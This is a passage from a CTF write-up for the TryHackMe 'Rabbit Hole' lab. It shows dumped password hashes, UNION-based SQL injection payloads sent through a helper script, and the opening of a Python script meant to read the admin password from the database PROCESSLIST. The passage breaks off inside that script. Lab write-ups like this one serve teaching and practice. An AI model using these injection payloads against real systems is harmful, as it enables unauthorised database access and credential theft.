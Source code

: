 ![full hashes](/images/THM-RabbitHole/full_hashes.png)

```
0e3ab8e45ac1163c2343990e427c66ff
a51e47f646375ab6bf5dd2c42d3e6181
de97e75e5b4604526a2afaed5f5439d7
```

We are unable to crack the `admin` hash and although we crack the two other hashes we cannot use the passwords to connect via SSH.

![cracked passwords](/images/THM-RabbitHole/foobar_pwd.png)

![failed SSH logins](/images/THM-RabbitHole/failed_SSH.png)

We also check the `logins` table but it only contains `username` and `login_time` which will not be helpful.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name="logins" AND table_schema=DATABASE(); --'
```

![logins table](/images/THM-RabbitHole/logins_table.png)

Let's see which other database(s) we have.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, schema_name FROM information_schema.schemata; --'
```

![full databases names](/images/THM-RabbitHole/full_db_names.png)

Besides the `web` database we have the `information_schema` database.

## Queries Extraction

> Full credit for this part goes to `jaxafed` with his write up available [here](https://jaxafed.github.io/posts/tryhackme-rabbit_hole/#extracting-the-current-queries). I was not able to make the link between the automated logins and the database itself.

At this point we have exhausted a lot of options, but there is more to explore. Remember how we had noticed that the admin user was logging in **every minute**, it obviously points to some sort of automation. 

It turns out that we can make use of the `PROCESSLIST` command to see which queries are being made in the background and if our timing is right, the admin password will be exposed. _Read more about `PROCESSLIST` [here](https://mariadb.com/kb/en/information-schema-processlist-table/)._

```python
#!/usr/bin/env python3

import requests
import sys
from bs4 import BeautifulSoup
import threading
import time

url_base = sys.argv[1]
payload = sys.argv[2]

sessions = {}
results = {}


def create_and_login(i, sqli_payload):
    s = requests.session()
```